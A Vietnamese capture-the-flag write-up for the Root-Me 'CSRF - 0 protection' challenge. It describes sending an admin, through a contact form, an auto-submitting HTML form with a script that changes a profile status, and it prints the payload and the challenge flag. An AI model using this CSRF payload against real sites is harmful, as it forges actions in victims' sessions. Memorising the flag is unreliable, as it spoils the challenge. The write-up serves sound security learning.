






# Challenge: CSRF - token bypass
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 10 phút
## Link: 
    https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection

- Bắt đầu vào thử thách, ta tạo tài khoản và đăng nhập, khi truy cập trang profile. Khi cố gắng gởi thay đổi thông tin status(chỉnh sửa mã nguồn) và submit tuy nhiên ta sẽ nhận được thông báo. "You're not a admin!"
<p align="center"></p>
- Với trang contact thì ta có quyền submit. Với bài CSRF, ta sẽ tiến hành gởi form lên cho admin để admin thay ta gởi request tới server.
<p align="center"></p>
- Do đó ta sẽ có ý tưởng gởi form profile cho admin, với các giá trị được đặt sẵn, với trường username là abc, và status là checked
<p align="center"></p>
<p align="center"></p>
- Sửa đổi một chút, ta chỉ cần những thẻ cần thiết, ngoài ra cần cho nó tự submit form nên ta sẽ dùng thêm thẻ script. và đặt id cho form để có thể lấy form và submit tự động.

```
<form id="form" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
    <input type="text" name="username" value="abc">
    <input type="checkbox" name="status" checked >
    <button type="submit">Submit</button>
</form>
<script>document.getElementById("form").submit(); </script>
```

- Nộp đoạn mã trên vào form contact.
<p align="center"></p>
- Sau một lúc ta vào trang private thì lúc này ta đã được quyền truy cập, ta nhận được flag ở đây 
<p align="center"></p>

## Kết quả flag là `Csrf_Fr33style-L3v3l1!`